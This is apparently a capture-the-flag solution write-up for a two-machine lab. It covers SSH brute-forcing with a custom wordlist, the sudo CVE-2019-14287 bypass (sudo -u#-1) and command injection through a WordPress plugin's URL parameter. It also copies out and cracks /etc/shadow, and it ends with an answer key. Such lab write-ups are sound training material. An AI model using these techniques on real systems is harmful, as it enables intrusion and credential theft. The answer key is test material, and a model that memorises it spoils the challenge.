 # 2 Boxes 4 Shells - II Solution
 
## Box 1 User

1. Browse to `192.168.86.236`
2. Accept non-secure warning
3. Open developer tools -> Elements
4. Access `192.168.86.236/static/images/favicon/c2lnbnVwX3VzZXJfY29tcGxldGUvP2lkPTdxa3BocXFreHBub3B5Y3N4cGl5cmZvNjl3.txt` in your browser
5. Notice the .b64 ascii art
6. Convert the filename from base64. 
    ```
    echo c2lnbnVwX3VzZXJfY29tcGxldGUvP2lkPTdxa3BocXFreHBub3B5Y3N4cGl5cmZvNjl3 | base64 --decode)
    ```
7. Browse to this newly-found invite link that's outputted 
8. Enter any email/username/password that meets requirements
9. Read Town Square
10. Notice jjohnson's post at 8:30am and dsmith's response at 8:32am on Monday Jun 29
11. One way to create a password list that meets these requirements is rsmangler. First leet the name deion
12. Rsmangler can be difficult to corral by turning off all switches (as they are on by default)
13. To accommodate this, we can do default mangling, and carve out what we need
14. First, we need to leet deion. Create a text file named `initial.txt` and add the name/word "deion"
15. Next: 
    ```
    rsmangler --file initial.txt -o mangled1.txt
    ```
16. Lines 17 and 18 show a mangled 'deion'. Carve them out with the command below.
    - NOTE: only leet'd possibilities do not include special characters and only numbers, so only line 17 (`d310n`) will be used. 
    ```
    sed -n 17p mangled1.txt > mangled2.txt
    ``` 
17. Next, we will want to append 1-99 to both. This can be performed similarly to above by carving or manipulating rsmangler; however, we can also create a script
    ```bash
    #!/bin/bash
    for i in {1..99}
    do
        echo "d310n$i" >> mangled3.txt
    done
    ```

18. Finally, we must append a special character to each item and append to a final wordlist. Another script will work
    ```bash
    #!/bin/bash

    for i in '!' '@' '#' '$' '%' '^';
    do
        sed s/$/$i/ mangled3.txt > mangled4$i.txt
    done
    ```
19. Append all files into one with:
    ```
    cat mangled4* > final-wordlist.txt
    ```
20. Now, use `final-wordlist.txt` as the password list to access the Mattermost box
21. Using nmap shows port 22 is open
22. Open xhydra
    - Target Tab:
        - single target -> 192.168.86.236
        - Port -> 22
        - Protocol -> ssh
        - Select Show Attempts
    - Passwords Tab:
        - Username -> dsmith (as stated in chat)
        - Password list -> location of final-wordlist.txt
    - Start Tab:
        - Click Start and wait. 
23. xhydra will find the password within 10 minutes with this workflow. Time may be more or less based on optimal wordlist
24. Follow these steps and enter the password from xhydra as prompted:
    ```
    ssh dsmith@192.168.86.236 
    ls
    cat token1.txt
    ```

## Box 1 Root

1. The command below shows that there are no files owned by dsmith.
    ```
    find / -group dsmith 2>/dev/null | less
    ```
2. `sudo -V` shows a vulnerable version of sudo. (chat mentioned playing with sudo a bit; however, seeing this in chat is not necessary. Checking sudo is standard for priv esc)
3. `sudo -l` shows that the extremely popular sudo vulnerability of 2019 (2019-14287) is applicable due to the !root config and sudo version
4. We can run `grep` as root. We can make the assumption that since the first token was `token1.txt`, then `token2.txt` is next. However, playing with grep can confirm the filename based off of matches
5. To have grep return the entire contents of a file, we must trick it into matching anything possible within the file (since we don't know the contents of the file)
6. One example of exploiting sudo vulnerability and grepping entire file is:
    ```
    sudo -u#-1 grep --color -E "test|$" /root/token2.txt
    ```

## Box 2 User

1. Browsing to `192.168.86.243` shows a default wordpress box with some plugin information near the top.
2. Read the information, and browse to the plugin. Since it's at the default location, go to `192.168.86.243/wp-content/plugins/timechecker.php`
3. To pass the country name into the php plugin via the URL so the time can be checked, enter `192.168.86.243/wp-content/plugins/timechecker.php?country=Canada`
4. We are now given the time in Canada.
5. We can test if this plugin is vulnerable to command injection. To test this, enter `192.168.86.243/wp-content/plugins/timechecker.php?country=Canada;whoami`
6. We are given www-data. We can run commands via this method.
7. Enter `192.168.86.243/wp-content/plugins/timechecker.php?country=Canada;ls`
8. We see some files, directories, and notes. Enter the note directory with `192.168.86.243/wp-content/plugins/timechecker.phpcountry=Canada;ls -R notes`
9. View `notes.txt` in the notes directory with `192.168.86.243/wp-content/plugins/timechecker.phpcountry=Canada;cat notes/notes.txt`
10. Here we see some dev personal notes, with creds.
11. ssh to the box with the creds found and then use:
    ```
    ls
    cat token3.txt
    ```

## Box 2 Root

1. While logged in Box2 as tlopez via ssh: 
    ```
    ls
    cat more_notes.txt
    ```
2. Notice there is a backed-up version of this server
    ```
    docker images   //shows personal_backup_current_server_dev
    docker run -t -d personal_backup_current_server_dev
    docker ps -a    //shows new container, ID, and Names created X seconds ago
    docker exec -it [Names] bash
    ```
3. History within docker shows shadow history
4. Using the two commands below shows we have access to crack hashes:
    ```
    cat /etc/shadow 
    cat /etc/passwd
    ``` 
5. Copy these files out of docker and box2 to local and then exit docker container:
    ```
    docker cp [Names]:/etc/passwd 
    docker cp [Names]:/etc/shadow
    exit 
    scp lopez@192.168.86.243:~/passwd
    scp lopez@192.168.86.243:~/shadow
    sudo unshadow passwd shadow > unshadowed.txt
    cp /usr/share/wordlists/rockyou.txt.gz 
    gunzip rockyou.txt.gz 
    sudo john --wordlist-rockyou.txt unshadowed.txt
    ```
6. We found the password by cracking the hash.
7. ssh back to box2 and su with password.
8. Then:
    ```
    cd /root
    cat token4.txt
    ```

## Answers

Q1
- `Blue Blazes`

Q2
- `Blue Bombers`

Q3
- `Blue Flame`

Q4
- `Blue Ox`